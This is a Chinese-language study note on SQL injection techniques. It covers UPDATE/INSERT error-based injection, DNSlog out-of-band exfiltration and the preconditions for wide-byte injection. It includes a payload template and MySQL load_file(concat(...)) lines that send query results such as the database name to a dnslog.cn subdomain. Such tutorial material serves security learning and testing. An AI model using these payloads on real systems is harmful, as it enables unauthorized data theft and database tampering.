 ## update、insert注入

update、insert注入通常使用报错注入，将注入语句构造在要修改或者插入的值或条件当中

update users set passwd='ccc'and payload # ' where username="xxx"

#### ==update和insert要慎用!==

update会修改数据库里原有记录的值,如果select注入只能使用延时盲注的情况或者使用update是最便捷或者最优解的情况下,使用update可以加上where,给一个不存在的值,保护原有数据。如果是在公司或者单位内部测试,可以让开发人员搭建一个测试环境进行渗透测试

## dnslog带外注入的原理

在盲注场景下,也可以使用带外注入

**dnslog平台:**

> dnslog.cn 

1. dnslog带外注入的原理是什么?

   原理:在后端的数据库用户拥有读文件权限的情况下,将要查询的字符串拼接到dnslog域名中,然后发起对应网址的资源请求,就能把想要查询的结果外带到dnslog平台上方便查看

   

2. 如何进行dnslog带外注入?

   用concat函数构造dnslog的域名,用select load_file()

   ```mysql
   select load_file("\\\\test.xkpb07.dnslog.cn\\aa");
   #xkpb07.dnslog.cn是在dnslog生成的三级域名,可以使用concat将要查询的内容放到第四级域名,如果数据库用户有文件读写权限,则可以将查询内容带到dnslog.cn上面
   select load_file(concat('\\\\',(select database()),'.jtc581.dnslog.cn/abc'));
   ```

**需要注意的是windows中的文件资源管理器中的文件目录用的是反斜杠 \ ，而我们的网站中文件的目录索引用的是斜杠 / ，我们这里load_file函数必须用斜杠 / 索引文件**

可不可以通过不受secure_file_priv限制的load data infile 或者 load data local infile 执行dnslog注入

### DNSLog利用的条件

DNSLog需要利用的load_file()，所以load_file()能使用的权限是必不可少的，load_file()的使用条件是root且配置得有一定要求，使用命令show variables like "%secure%"查询权限如下：

1、当secure_file_priv为空，就可以读取磁盘的目录。


2、当secure_file_priv为 /，就可以读取根目录 / 下的文件。

3、当secure_file_priv为NULL，load_file就不能加载文件。

## 宽字节注入:

如果后端将前端传回的特殊符号全部进行处理，在闭合符等特殊符号前添加了反斜杠\将特殊符号全部转义成了普通的符号，此时注入语句中添加的闭合符就会失效，导致注入语句被当成字符串处理。如果后端使用了GBK编码，这种情况就可以使用宽字节注入。

1. 宽字节注入的前提条件?

   后端使用了GBK编码的时候,存在着将ascii编码转换为GBK编码的过程,可以使用宽字节注入
